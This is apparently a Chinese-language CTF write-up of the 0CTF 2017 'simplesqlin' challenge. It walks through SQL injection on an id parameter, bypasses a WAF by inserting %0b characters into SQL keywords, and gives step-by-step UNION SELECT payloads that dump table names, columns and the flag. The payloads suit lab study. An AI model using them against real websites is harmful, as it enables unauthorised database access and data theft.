 # 0CTF 2017 Quals

這次根本沒人打QQ

我上去丟了個 Welcome Flag

然後解不出 simplesqlin 就洗洗睡了O_O

來研究別人的 writeups 吧~

## simplesqlin

網址 : http://202.120.7.203/ ( 可能不給連了 )

index page 有全部文章的連結

![index page](simplesqlin/index.png)

article page 是 index.php 傳 id parameter 進去資料庫抓東西出來顯示

![article page](simplesqlin/index-id.png)

所以很明顯的就是 sql injection id 這個欄位

Blind injection 成功

`id=1 AND 1=1 #`

`id=1 AND 1=2 #`

UNION SELECT 失敗(被 WAF 擋掉了)

`id=1 UNION SELECT database() #`

![waf protection](simplesqlin/waf.png)

要怎麼 bypass 討厭的 WAF 呢 ( 我比賽的時候到這邊就不行了O_O )

看了別人的 writeup ( https://rawsec.ml/en/0CTF-2017-write-ups/#simplesqlin-web and http://piratefache.ch/0ctf-2017-simplesqlin )

發現可以用 %0b ( Verticle TAB ) 這種在 ASCII 表裡面沒有實際輸出的東西插到字裡面

`id=0 UN%0bION SEL%0bECT null,null,database() #`

就會得到 `news` 就是我們目前 database 的名字

上面那行有兩個重點 ( 除了 %0b 上面講了 )

第一，注意 id=0 因為 id=1 的話他會真的抓到文章你 UNION SELECT 到的東東就不會顯示出來了

第二，注意 null,null,database() 有兩個 null 那是用來做 padding 的，因為 UNION SELECT 必需和前面的 SELECT 欄位格數一致

不知道要塞幾個 null 可以用試的

最後只要一步一步根據 schema -> table -> column 就可以找到了

`id=0 UN%0bION SEL%0bECT null,null,table_name FR%0bOM information_schema.tables WHE%0bRE table_schema = 'news' #`

得到 flag

`id=0 UN%0bION SEL%0bECT null,null,column_name FR%0bOM information_schema.columns WHE%0bRE table_schema = 'news' AND table_name = 'flag' #`

得到 flag

`id=0 UN%0bION SEL%0bECT null,null,flag FR%0bOM flag`

flag{W4f_bY_paSS_f0R_CI}

看別人的 writeups 還發現可以用 GROUP_CONCAT 去一次挖出一堆東東

比如說一次挖出所有 tables

`id=0 UN%0bION SE%0bLECT null,null,GROUP_CONCAT(table_name) FR%0bOM information_schema.tables #`

CHARACTER_SETS,...,flag,news ( 太多了...省略部分 )
